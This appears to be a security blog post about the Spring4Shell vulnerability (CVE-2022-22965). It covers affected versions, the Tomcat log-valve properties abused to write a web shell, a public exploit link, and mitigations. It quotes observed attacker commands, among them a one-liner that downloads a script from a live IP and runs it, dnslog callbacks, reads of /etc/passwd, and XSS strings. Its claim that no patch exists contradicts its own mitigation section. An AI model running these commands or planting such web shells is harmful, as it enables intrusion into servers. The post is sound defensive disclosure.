 ```yaml
---
title: "Spring4shell: A Critical Vulnerability in the Spring Java Framework"
date: 2022-03-30 11:33:00 +0800
categories: [Vulnerabilities, 0day]
tags: [spring4shell, 0day, vulnerability, critical, spring, java, framework]
author: 1
---
```


## Executive Summary

On March 29th, 2022, a Chinese Twitter account published a PoC of 0-Day vulnerability Spring4Shell or another name SpringShell in the famous java framework Spring. A CVE was added on March 31st, 2022 by the Spring developers as [CVE-2022-22965](https://nvd.nist.gov/vuln/detail/cve-2022-22965). Spring MVC or Spring WebFlux application running on JDK 9+ may be vulnerable to remote code execution (RCE) via data binding. Exploit requires the application to run on Tomcat as a WAR deployment. If the application is deployed as a Spring Boot executable jar, i.e. the default, it is not vulnerable to the exploit. That vulnerability is fixed in 2.6.6; see [the Spring blog for details](https://spring.io/blog/2022/03/31/spring-boot-2-6-6-available-now).

## **Affected Software and Versions**

These are the requirements for the exploitation:

- Running on JDK 9 or higher
- [Packaged as a traditional WAR](https://docs.spring.io/spring-boot/docs/2.5.x/reference/htmlsingle/#howto.traditional-deployment) and deployed on a standalone Servlet container. Typical Spring Boot deployments using [an embedded Servlet container](https://docs.spring.io/spring-boot/docs/2.5.x/reference/htmlsingle/#features.developing-web-applications.embedded-container) or [reactive web server](https://docs.spring.io/spring-boot/docs/2.5.x/reference/htmlsingle/#features.developing-web-applications.reactive-server) are not impacted.
- `spring-webmvc` or `spring-webflux` dependency.
- Spring Framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older versions.

If your application existing these requirements, it may be vulnerable. Please look at mitigation suggestions and apply immediately.

## Impact of Spring4Shell

NVD (National Vulnerability Database) gave a CVSS v3.1 score of 9.8 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H) to Spring4Shell due to the criticality that the exploit does not need any authentication or authorization. Spring4Shell allows attackers to get remote code execution in the context of the user that is running the vulnerable application.

## Spring4shell Technical Details

The "getCachedIntrospectionResults" method of the Spring framework causes this vulnerability, because of wrongly exposing the class object.

Vulnerable Code Snippet:

```jsx
public class Greeting {
		private long id;
		private String content;
		public long getId() {
	 			return id;
		}
		public String getContent() { 
			return content;
		}
}
```

And controller's code:

```jsx
@PostMapping("/test")
	 public String greetingSubmit(@ModelAttribute Greeting greeting, Model model) {
	 return "hello";
	 }
```

The vulnerability in Spring4Shell is caused by the "getCachedIntrospectionResults" method of the Spring framework, which wrongly exposes the class object. This class object has a reference to the POJO (Plain Old Java Object) where all HTTP parameters are mapped. If the application is running on Apache Tomcat, an attacker can exploit this vulnerability by using the class variable "class.module.classLoader.resources.context.parent.pipeline.firstpath" to control an AccessLogValve object and manipulate its properties to write a web shell at the web root, thereby obtaining remote command execution.

## Spring4Shell Exploitation

Exploitation is similar to [CVE-2010-1622](http://blog.o0o.nu/2010/06/cve-2010-1622.html). 

The properties are as follows:

1. **`class.module.classLoader.resources.context.parent.pipeline.first.pattern`** - This property determines the content of the log file, and it is where you would want to insert your web shell code.
2. **`class.module.classLoader.resources.context.parent.pipeline.first.prefix`** - This property refers to the name of the log file, and it is where you would name your web shell file.
3. **`class.module.classLoader.resources.context.parent.pipeline.first.suffix`** - This property indicates the extension of the log file, which must be set to .jsp.
4. **`class.module.classLoader.resources.context.parent.pipeline.first.directory`** - This property specifies the location of the log file. If the root directory is remotely accessible, you can use webapps/ROOT as the value for the directory property, allowing you to interact with your web shell by accessing /.jsp
5. **`class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat`** - This property is optional and it helps with a quality of life improvement for the attacker as it removes cumbersome logging timestamps from the output if the property is left blank.

There is a python script for exploitation: [https://github.com/reznok/Spring4Shell-POC/blob/master/exploit.py](https://github.com/reznok/Spring4Shell-POC/blob/master/exploit.py)

Using: python3 exploit.py --url http://TARGET.com

![Untitled](Spring4Shell-Blog-Post%20762549c580314e2b8b652b51bbf4874a/Untitled.png)

![Untitled](Spring4Shell-Blog-Post%20762549c580314e2b8b652b51bbf4874a/Untitled%201.png)

## Statistics About Spring4Shell

According to the 360 netlab’s report, these are information about threat actors and exploitation of Spring4Shell:

![Untitled](Spring4Shell-Blog-Post%20762549c580314e2b8b652b51bbf4874a/Untitled%202.png)

Top 10 country statistics:

```
United States      92
The Netherlands    49
Germany            30
China              21
France              6
Luxembourg          6
Sweden              6
Switzerland         5
Ukraine             5
Austria             4
```

Webshell and test file upload statistics:

![Untitled](Spring4Shell-Blog-Post%20762549c580314e2b8b652b51bbf4874a/Untitled%203.png)

Some of used exploit commands so far:

```jsx
echo%20ddfdsfasdfasd
echo%20fdsafasdfasd
echo%202222222
ls
ls%20/tmp/
whoami
%2Fbin%2Fsh%2F-c%24%7BIFS%7D%27cd%24%7BIFS%7D%2Ftmp%3Bwget%24%7BIFS%7Dhttp%3A%2F%2F107.174.133.167%2Ft.sh%24%7BIFS%7D-O-%A6sh%24%7BIFS%7DSpringCore%3B%27 
cat+/etc/passwd 
chdir 
cmd /c dir 
cmd /c net user 
curl+http://111.4vcrkb.dnslog.cn/1.jpg 
curl+http://12121.4vcrkb.dnslog.cn/1.jpg 
curl+http://35456.4vcrkb.dnslog.cn/1.jpg 
dir 
echo 
echo 8888888888  
echo %USERNAME%  
echo %computername% 
echo </xss> 
echo fucker_test_test 
echo rinima  
echo%20%3Csvg%20onload=confirm`xss`%3E 
echo%20%3Csvg%20onload=confirm`xsssssss`%3E 
echo%20ddfdsfasdfasd 
echo%20fdsafasdfasd 
echo%202222222 
echo+22222 
echo+`whoami` 
echo+whoami 
exp
id 
ifconfig 
ls 
ls%20/tmp/ 
ping -n 2 uup0fk.dnslog.cn 
ping uup0fk.dnslog.cn 
uname 
whoami 
whoami%0A
```

## Mitigation suggestions

The preferred solution is to update Spring Framework to **5.3.18** and **5.2.20** or greater. If the application is not able to upgrade Spring Framework, then upgrade Tomcat to **10.0.20**, **9.0.62**, or **8.5.78.** Another solution is downgrading Java to version 8. Also there is a patch too:

[https://github.com/spring-projects/spring-framework/commit/afbff391d8299034cd98af968981504b6ca7b38c](https://github.com/spring-projects/spring-framework/commit/afbff391d8299034cd98af968981504b6ca7b38c)

There is a Yara rule for detecting exploits for Spring4Shell: [https://github.com/Neo23x0/signature-base/blob/master/yara/expl_spring4shell.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/expl_spring4shell.yar)

## Conclusion

Spring4Shell was announced with the PoC published on a Chinese Twitter account on March 29, 2022. Unfortunately, an official patch has not been released yet. Therefore, it was actively used by attackers. It wasn't as exploitable as log4j as it required some requirements for exploitation but still a very critical vulnerability.

1- Executive summary
2- Introduction
3- Explanation of the vulnerability with its impact
4- Explanation of the exploit
5- Current exploitation status (relevant threat groups, attack campaigns)
6- Mitigation suggestions
7- Conclusion